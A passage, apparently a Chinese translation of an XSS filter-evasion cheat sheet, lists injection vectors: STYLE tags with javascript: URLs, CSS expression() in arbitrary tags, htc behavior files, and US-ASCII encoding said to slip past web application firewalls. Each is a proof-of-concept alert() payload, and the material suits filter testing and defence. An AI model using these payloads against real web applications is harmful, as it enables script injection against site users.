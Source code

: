 ```
<STYLE TYPE="text/javascript">alert('XSS');</STYLE> 
```

* * *

## 使用 background-image 的 style 标签

```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A> 
```

* * *

## 使用 background 的 style 标签

```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE> 
```

* * *

## 匿名 html 标签的属性

IE6.0 和使用了 ix 渲染引擎的 Netscape 8.1+ 并不会关心你建立的 html 标签存在与否。只要它是以尖括号以及字符开始的。

```
<XSS STYLE="xss:expression(alert('XSS'))"> 
```

* * *

## 本地 htc 文件

它有一个小的不同与上面的 xss 向量，因为他使用的 htc 文件必须是当前域的文件。这个文件通过样式属性引入并运行 javascript 代码实现 xss。

```
<XSS STYLE="behavior: url(xss.htc);"> 
```

* * *

## US-ASCII 编码

US-ASCII 编码 (发现被 Kurt Huwig)。它是使用畸形的 ASCII 编码用 7bits 代替 8bits. 这个 xss 可以绕过绝大多数内容过滤，但是必须当前域的传输形式为 US-ASCII 编码方式。或者你自己去设置这种编码方式 。它是有用的去绕过 web 应用防火墙 xss 过滤比服务器端的过滤。Apache 的 Tomcat 是众所周知的 使用 US-ASCII 编码传输协议。

```
¼script¾alert(¢XSS¢)¼/script¾ 
```

* * *

## META

